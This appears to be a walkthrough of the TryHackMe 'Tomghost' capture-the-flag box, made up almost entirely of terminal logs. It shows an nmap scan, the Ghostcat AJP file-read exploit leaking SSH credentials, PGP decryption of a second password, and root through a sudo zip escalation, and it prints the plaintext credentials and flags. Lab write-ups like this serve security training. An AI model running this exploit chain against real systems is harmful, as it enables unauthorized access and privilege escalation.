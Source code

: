 # TomGhost_Workthrough
TryHackMe box Tomghost Workthrough


>sudo nmap -sC -sV 10.10.65.36
Starting Nmap 7.92SVN ( https://nmap.org ) at 2022-07-31 18:47 IST
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 18:47 (0:00:06 remaining)
Nmap scan report for 10.10.65.36
Host is up (0.21s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.72 seconds
> cd Ghostcat-CNVD-2020-10487
> ls
ajp-execute.png  ajp-read.png  ajp-save.png  ajpShooter.py  README.md
> python3 ajpShooter.py http://10.10.65.36 8009 /WEB-INF/web.xml

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    
usage: ajpShooter.py [-h] [--ajp-ip AJP_IP] [-H HEADER] [-X {GET,POST,HEAD,OPTIONS,PROPFIND}] [-d DATA] [-o OUT_FILE] [--debug] url ajp_port target_file {read,eval}
ajpShooter.py: error: the following arguments are required: shooter
> python3 ajpShooter.py http://10.10.65.36 8009 /WEB-INF/web.xml read

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
> ssh skyfuck@10.10.65.36
The authenticity of host '10.10.65.36 (10.10.65.36)' can't be established.
ED25519 key fingerprint is SHA256:tWlLnZPnvRHCM9xwpxygZKxaf0vJ8/J64v9ApP8dCDo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:6: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.65.36' (ED25519) to the list of known hosts.
skyfuck@10.10.65.36's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ cd  ..
skyfuck@ubuntu:/home$ cd ..
skyfuck@ubuntu:/$ ls
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
skyfuck@ubuntu:/$ cd 
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ cd ..
skyfuck@ubuntu:/home$ ls
merlin  skyfuck
skyfuck@ubuntu:/home$ cd skyfuck/
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ gpg -d credential.pgp 
gpg: directory `/home/skyfuck/.gnupg' created
gpg: new configuration file `/home/skyfuck/.gnupg/gpg.conf' created
gpg: WARNING: options in `/home/skyfuck/.gnupg/gpg.conf' are not yet active during this run
gpg: keyring `/home/skyfuck/.gnupg/secring.gpg' created
gpg: keyring `/home/skyfuck/.gnupg/pubring.gpg' created
gpg: encrypted with ELG-E key, ID 6184FBCC
gpg: decryption failed: secret key not available
skyfuck@ubuntu:~$ pgp --import tryhackme.asc 
The program 'pgp' is currently not installed. To run 'pgp' please ask your administrator to install the package 'pgpgpg'
skyfuck@ubuntu:~$ gpg --import tryhackme.asc 
gpg: key C6707170: secret key imported
gpg: /home/skyfuck/.gnupg/trustdb.gpg: trustdb created
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
skyfuck@ubuntu:~$ gpg -d credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123jskyfuck@ubuntu:~$ 
skyfuck@ubuntu:~$ su merlin
Password: 
su: Authentication failure
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ ls
credential.pgp  tryhackme.asc
merlin@ubuntu:/home/skyfuck$ cd ..
merlin@ubuntu:/home$ cd ..
merlin@ubuntu:/$ cd ..
merlin@ubuntu:/$ cd home
merlin@ubuntu:/home$ cd merlin
merlin@ubuntu:~$ ls
user.txt
merlin@ubuntu:~$ cat user.txt 
THM{GhostCat_1s_so_cr4sy}
merlin@ubuntu:~$ sudo -l -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:

Sudoers entry:
    RunAsUsers: root
    RunAsGroups: root
    Options: !authenticate
    Commands:
        /usr/bin/zip
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# ls -l
total 4
-rw-rw-r-- 1 merlin merlin 26 Mar 10  2020 user.txt
# ls-la
sh: 3: ls-la: not found
# ls -la
total 36
drwxr-xr-x 4 merlin merlin 4096 Mar 10  2020 .
drwxr-xr-x 4 root   root   4096 Mar 10  2020 ..
-rw------- 1 root   root   2090 Mar 10  2020 .bash_history
-rw-r--r-- 1 merlin merlin  220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 merlin merlin 3771 Mar 10  2020 .bashrc
drwx------ 2 merlin merlin 4096 Mar 10  2020 .cache
drwxrwxr-x 2 merlin merlin 4096 Mar 10  2020 .nano
-rw-r--r-- 1 merlin merlin  655 Mar 10  2020 .profile
-rw-r--r-- 1 merlin merlin    0 Mar 10  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 merlin merlin   26 Mar 10  2020 user.txt
# ls -al  
total 36
drwxr-xr-x 4 merlin merlin 4096 Mar 10  2020 .
drwxr-xr-x 4 root   root   4096 Mar 10  2020 ..
-rw------- 1 root   root   2090 Mar 10  2020 .bash_history
-rw-r--r-- 1 merlin merlin  220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 merlin merlin 3771 Mar 10  2020 .bashrc
drwx------ 2 merlin merlin 4096 Mar 10  2020 .cache
drwxrwxr-x 2 merlin merlin 4096 Mar 10  2020 .nano
-rw-r--r-- 1 merlin merlin  655 Mar 10  2020 .profile
-rw-r--r-- 1 merlin merlin    0 Mar 10  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 merlin merlin   26 Mar 10  2020 user.txt
# cd ..
# ls -a
.  ..  merlin  skyfuck
# cd ..
# ls 
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
# cd root
# ls
root.txt  ufw
# cat root.txt  
THM{Z1P_1S_FAKE}
